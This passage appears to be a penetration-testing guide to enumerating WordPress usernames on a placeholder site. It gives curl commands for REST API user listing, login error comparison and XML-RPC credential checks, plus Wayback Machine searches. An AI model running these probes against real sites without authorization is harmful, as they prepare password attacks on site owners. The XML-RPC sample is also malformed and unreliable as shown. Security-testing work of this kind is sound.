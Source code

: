 Look for redirects to `/author/username/` or check the page title/content for usernames.

### 2. REST API Enumeration

WordPress REST API exposes user information:

```bash
# Method 1: Direct REST API
curl "https://target.is/wp-json/wp/v2/users"

# Method 2: Using rest_route parameter
curl "https://target.is/?rest_route=/wp/v2/users"
```

This returns JSON with user details including usernames, display names, and user IDs.

### 3. Wayback Machine

Search historical snapshots for author pages and usernames:

1. Go to [web.archive.org](https://web.archive.org)
2. Search for the target domain
3. Look for URLs containing:
   - `/author/`
   - `?author=`
   - Author bylines in blog posts
   - Comment sections with usernames

**Example searches:**

- `site:target.is author`
- `site:target.is "written by"`
- `site:target.is "posted by"`

### 4. Login Error Differences

Some WordPress sites reveal username validity through login error messages:

```bash
# Test with invalid username
curl -X POST "https://target.is/wp-login.php" \
  -d "log=nonexistentuser&pwd=wrongpass"

# Test with valid username
curl -X POST "https://target.is/wp-login.php" \
  -d "log=admin&pwd=wrongpass"
```

Look for different error messages that might indicate username validity.

### 5. XML-RPC Username Validation

Use XML-RPC methods to validate usernames:

```bash
curl -X POST "https://target.is/xmlrpc.php" \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0"?>
<methodCall>
  <methodName>wp.getCategories</methodName>
  <params>
    <param><value><string>testuser</string></value>
    <param><value><string>wrongpass</string></value>
  </params>
</methodCall>'
```
